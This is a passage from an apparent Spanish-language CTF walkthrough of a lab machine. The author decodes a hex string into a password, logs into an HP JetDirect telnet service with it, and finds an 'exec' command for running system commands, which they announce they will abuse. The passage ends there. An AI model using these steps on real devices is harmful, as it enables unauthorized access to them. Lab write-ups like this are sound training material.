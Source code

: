 Con **xargs**, te aparecerán más ordenados:
```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Para convertir estos números a binario, vamos a usar la herramienta **xxd** con algunos parámetros:
```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r 
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5
```
Excelente, ya tenemos algo, lo que parece ser una contraseña, pero no sé hasta qué punto sería para probarla y el único servicio en el que podemos probar, es el de **Telnet**.

Probemos:
```bash
telnet 10.10.11.107 23                                       
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
Vaya, pues era todo eso. Algo curioso que nos muestra, es que podemos usar el comando **exec** para ejecutar comandos del sistema. Aprovechémonos de esto.
